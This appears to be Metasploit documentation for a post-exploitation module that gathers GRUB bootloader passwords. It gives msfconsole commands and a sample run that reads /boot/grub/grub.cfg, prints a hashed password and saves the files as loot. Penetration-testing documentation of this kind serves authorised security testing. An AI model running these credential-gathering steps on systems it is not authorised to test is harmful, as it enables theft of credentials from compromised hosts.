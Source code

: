 ## Vulnerable Application

  This post-exploitation module will gather passwords from GRUB bootloader config files.

## Verification Steps

  1. Start `msfconsole`
  2. Get shell/meterpreter session
  3. Do: `use post/multi/gather/grub_password`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. The gathered passwords will be printed to the console. You should be able to see the extracted `grub.config` file in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Scenarios

  Typical run against Ubuntu 16.04 LTS

  ```
  msf exploit(handler) > use post/multi/gather/grub_password 
  msf post(grub_password) > set SESSION 1
  SESSION => 1
  msf post(grub_password) > run

  [*] Searching for GRUB config files..
  [*] Reading /boot/grub/grub.cfg
  [+] Found password: password --md5 $1$TNUb/1$TwroGJn4eCd4xsYeGiBYq.
  [+] /boot/grub/grub.cfg saved to /home/user/.msf4/loot/20190217212515_default_172.25.14.160_grub.config_675306.txt
  [*] Reading /etc/grub.d/00_header
  [*] No passwords found in GRUB config file: /etc/grub.d/00_header
  [+] /etc/grub.d/00_header saved to /home/user/.msf4/loot/20190217212517_default_172.25.14.160_grub.config_259839.txt
  [*] Post module execution completed
  ```
